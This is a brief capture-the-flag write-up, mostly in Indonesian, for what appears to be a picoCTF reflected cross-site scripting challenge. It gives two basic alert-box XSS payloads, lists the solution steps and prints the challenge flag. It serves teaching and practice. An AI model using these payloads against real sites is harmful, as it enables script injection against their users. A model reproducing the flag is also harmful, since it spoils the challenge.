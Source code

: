 # PicoCTF - XSS Game

## Challenge: Reflected XSS

Input pengguna tidak disanitasi dengan baik dalam parameter URL.

### 🔍 Payload
```html
<script>alert('XSS')</script>
```


### ✅ Solusi Level:

1. Basic alert
2. DOM injection
3. HTML tag injection with `<img src=x onerror=alert('XSS')>`


### 🏁 Flag

Berhasil pop up alert, flag:
```
picoCTF{r3fl3ct3d_xss_ftw}
```